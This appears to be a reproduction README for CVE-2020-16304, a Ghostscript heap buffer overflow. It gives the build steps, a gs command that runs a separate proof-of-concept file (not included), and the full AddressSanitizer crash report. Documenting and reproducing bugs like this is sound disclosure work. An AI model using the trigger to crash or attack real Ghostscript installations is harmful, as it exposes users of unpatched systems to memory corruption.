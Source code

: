 # CVE-2020-16304

## POC URL
- https://bugs.ghostscript.com/show_bug.cgi?id=701816

## Reproduction Steps 
OS:        Ubuntu 18.04 64bit
Version:   commit b5bc53eb7223f8999882a5d8e2e35c27fe7a0b57

## Steps to reproduce:
1. Download the .POC files.
2. Compile the source code with "make sanitize" using gcc.
3. Run following cmd.


gs -dBATCH -dNOPAUSE -dFitPage -sOutputFile=tmp -sDEVICE=plank $PoC
## Here's ASAN report.

==17311==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x7fa1955a6730 at pc 0x56189b3f497d bp 0x7ffcf93e73b0 sp 0x7ffcf93e73a0
WRITE of size 1 at 0x7fa1955a6730 thread T0
    #0 0x56189b3f497c in image_render_color_thresh base/gxicolor.c:957
    #1 0x56189c39ffed in gx_image1_plane_data base/gxidata.c:237
    #2 0x56189c3a86a8 in gx_image_plane_data_rows base/gximage.c:183
    #3 0x56189c0688fb in gs_image_next_planes base/gsimage.c:621
    #4 0x56189c68bc31 in image_proc_continue psi/zimage.c:442
    #5 0x56189c5930e2 in do_call_operator psi/interp.c:86
    #6 0x56189c59c861 in interp psi/interp.c:1300
    #7 0x56189c594c2f in gs_call_interp psi/interp.c:520
    #8 0x56189c5942d4 in gs_interpret psi/interp.c:477
    #9 0x56189c56882b in gs_main_interpret psi/imain.c:253
    #10 0x56189c56bce0 in gs_main_run_string_end psi/imain.c:791
    #11 0x56189c56b6a5 in gs_main_run_string_with_length psi/imain.c:735
    #12 0x56189c56b617 in gs_main_run_string psi/imain.c:716
    #13 0x56189c5782db in run_string psi/imainarg.c:1117
    #14 0x56189c57807e in runarg psi/imainarg.c:1086
    #15 0x56189c5778fd in argproc psi/imainarg.c:1008
    #16 0x56189c5720c9 in gs_main_init_with_args01 psi/imainarg.c:241
    #17 0x56189c57252d in gs_main_init_with_args psi/imainarg.c:288
    #18 0x56189c57da5d in psapi_init_with_args psi/psapi.c:272
    #19 0x56189c74d07c in gsapi_init_with_args psi/iapi.c:148
    #20 0x56189b31e1d8 in main psi/gs.c:95
    #21 0x7fa19e27ab96 in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x21b96)
    #22 0x56189b31df79 in _start (gs+0x36bf79)

0x7fa1955a6730 is located 208 bytes to the left of 671864-byte region [0x7fa1955a6800,0x7fa19564a878)
allocated by thread T0 here:
    #0 0x7fa19fb64b50 in __interceptor_malloc (/usr/lib/x86_64-linux-gnu/libasan.so.4+0xdeb50)
    #1 0x56189c07c826 in gs_heap_alloc_bytes base/gsmalloc.c:193
    #2 0x56189bfec17b in alloc_acquire_clump base/gsalloc.c:2485
    #3 0x56189bfe9422 in alloc_obj base/gsalloc.c:1948
    #4 0x56189bfe4125 in i_alloc_bytes base/gsalloc.c:1176
    #5 0x56189c399038 in gxht_thresh_image_init base/gxht_thresh.c:635
    #6 0x56189b3ee3e2 in gs_image_class_4_color base/gxicolor.c:299
    #7 0x56189c3c4cd7 in gx_image_enum_begin base/gxipixel.c:1019
    #8 0x56189c3ad15a in gx_begin_image1 base/gximage1.c:94
    #9 0x56189c44c0d1 in gx_default_begin_typed_image base/gdevddrw.c:1052
    #10 0x56189c44bdb2 in gx_default_begin_image base/gdevddrw.c:1021
    #11 0x56189c44c04b in gx_default_begin_typed_image base/gdevddrw.c:1044
    #12 0x56189b96a1d2 in epo_begin_typed_image base/gdevepo.c:538
    #13 0x56189c0651ab in gs_image_begin_typed base/gsimage.c:258
    #14 0x56189c6898ea in zimage_setup psi/zimage.c:180
    #15 0x56189c689ff9 in zimage1 psi/zimage.c:243
    #16 0x56189c5930e2 in do_call_operator psi/interp.c:86
    #17 0x56189c59fd13 in interp psi/interp.c:1674
    #18 0x56189c594c2f in gs_call_interp psi/interp.c:520
    #19 0x56189c5942d4 in gs_interpret psi/interp.c:477
    #20 0x56189c56882b in gs_main_interpret psi/imain.c:253
    #21 0x56189c56bce0 in gs_main_run_string_end psi/imain.c:791
    #22 0x56189c56b6a5 in gs_main_run_string_with_length psi/imain.c:735
    #23 0x56189c56b617 in gs_main_run_string psi/imain.c:716
    #24 0x56189c5782db in run_string psi/imainarg.c:1117
    #25 0x56189c57807e in runarg psi/imainarg.c:1086
    #26 0x56189c5778fd in argproc psi/imainarg.c:1008
    #27 0x56189c5720c9 in gs_main_init_with_args01 psi/imainarg.c:241
    #28 0x56189c57252d in gs_main_init_with_args psi/imainarg.c:288
    #29 0x56189c57da5d in psapi_init_with_args psi/psapi.c:272

SUMMARY: AddressSanitizer: heap-buffer-overflow base/gxicolor.c:957 in image_render_color_thresh
Shadow bytes around the buggy address:
  0x0ff4b2aacc90: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0ff4b2aacca0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0ff4b2aaccb0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0ff4b2aaccc0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0ff4b2aaccd0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
=>0x0ff4b2aacce0: fa fa fa fa fa fa[fa]fa fa fa fa fa fa fa fa fa
  0x0ff4b2aaccf0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0ff4b2aacd00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0ff4b2aacd10: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0ff4b2aacd20: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0ff4b2aacd30: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb